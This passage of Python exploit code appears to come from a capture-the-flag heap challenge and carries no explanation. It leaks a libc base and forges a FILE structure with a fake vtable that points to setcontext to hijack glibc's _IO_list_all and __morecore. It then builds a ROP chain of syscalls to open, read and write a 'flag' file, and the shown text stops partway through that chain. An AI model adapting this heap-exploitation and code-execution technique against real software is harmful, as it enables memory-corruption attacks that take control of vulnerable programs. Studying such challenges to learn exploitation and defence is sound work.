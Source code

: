 ```python
libc = u64(r.recv(8)) - 0x39e683
__morecore_8 = libc + 0x39e388
_IO_str_jumps = libc + 0x39a080
setcontext = libc + 0x43565 # offset 53
info(f"""
libc: {hex(libc)}
fastbinsY: {hex(libc + 0x39db00)}
""")

edit(0x1008, p64(0x1411)) # &_IO_list_all
edit(0x2418, p64(0x21))
edit(0x2438, p64(0x21))
free(0x1010)

# call _IO_file_overflow -> (setcontext+53)(__morecore_8 - 0xa0)
fake = b''.ljust(0x28, b'\x00')
fake += p64(0xaaaabbbbccccdddd) # write_ptr
fake = fake.ljust(0x40, b'\x00')
fake += p64((__morecore_8 - 0xa0 - 100) // 2) # 0x40 ~ 0x48 buf_end --> __morecore_8 - 0xa0
fake = fake.ljust(0xd8, b'\x00')
fake += p64(_IO_str_jumps) # vtable
fake += p64(setcontext) # _allocate_buffer
edit(0x1000, fake)

edit(0x2008, p64(0x1121)) # [__morecore_8] = heap_base + 0x2000
edit(0x3128, p64(0x21))
edit(0x3148, p64(0x21))
free(0x2010)

pop_rax_ret = libc + 0x36d98
pop_rdi_ret = libc + 0x1feea
pop_rsi_ret = libc + 0x1fe95
pop_rdx_ret = libc + 0x1b92
syscall_ret = libc + 0xaa6b5
buf = libc + 0x39f000

rop = flat([
    # read(0, buf, 0x4)
    pop_rax_ret, 0,
    pop_rdi_ret, 0,
    pop_rsi_ret, buf,
    pop_rdx_ret, 0x4,
    syscall_ret,

    # open("flag", O_RDONLY)
    pop_rax_ret, 2,
    pop_rdi_ret, buf,
    pop_rsi_ret, 0,
    pop_rdx_ret, 0,
    syscall_ret,

    # read(0, buf, 0x30)
    pop_rax_ret, 0,
    pop_rdi_ret, 3,
    pop_rsi_ret, buf,
    pop_rdx_ret, 0x30,
    syscall_ret,

    # write(1, buf, 0x30)
    pop_rax_ret, 1,
    pop_rdi_ret, 1,
    pop_rsi_ret, buf,
    pop_rdx_ret, 0x30,
```